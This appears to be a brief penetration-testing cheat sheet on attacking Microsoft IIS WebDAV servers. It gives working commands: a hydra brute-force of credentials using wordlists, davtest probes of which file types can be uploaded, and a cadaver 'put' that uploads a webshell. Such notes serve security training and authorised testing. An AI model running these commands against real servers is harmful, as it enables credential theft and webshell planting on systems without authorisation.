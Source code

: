 # Exploiting Microsoft IIS Webdav

Legitimate credentials are needed for interacting with WebDav

Step 1: Identify if it has been configurated on the server. This can be completed with Nmap  
Step 2: Brute Force attack on the server to identify credentials we can use  
Step 3: Authenticate and upload malicious .asp payload  

## **Tools**  
Davtest - Scan, authenticate, and exploit WEbdav server 
Cadaver - supports download, upload, onscreen display, in place editing, etc

**Brute Force username and password**  
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt (IP address or domain) http-get /webdav/

## Davtest  
Checking what file types we can upload  
**Unauthenticated** - ```davtest -url http://(IP address)/webdav```  
**Authenticated** - ```davtest -url -auth bob:password123321 http://(IP address)/webdav```  

## Cadaver  
This will access the contents of the directory (download/upload)  
```cadaver http://(IPaddress)/webdav```  
Enter credentials  

**Uploading Webshell**  
Web shells located -- /usr/share/webshells  
```put /usr/share/webshells/(file type)/webshell.(filetype)```  
